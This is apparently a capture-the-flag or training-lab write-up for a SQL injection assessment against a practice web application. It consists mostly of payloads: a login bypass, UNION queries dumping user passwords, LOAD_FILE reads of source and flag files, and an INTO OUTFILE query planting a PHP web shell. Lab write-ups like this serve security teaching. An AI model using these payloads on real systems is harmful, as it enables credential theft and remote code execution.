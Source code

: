 # Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Bypass login

```
# username
asdf' or '1'='1' -- -
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

```
cn' UNION select 1, id, username, password, 5 from ilfreight.users-- -
```

<figure><img src="../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (85) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (1) (1).png" alt=""><figcaption><p>root:password</p></figcaption></figure>

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

<figure><img src="../../.gitbook/assets/image (97) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

flag\_cae1dadcd174.txt

```
cn' UNION SELECT 1, LOAD_FILE("/flag_cae1dadcd174.txt"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>




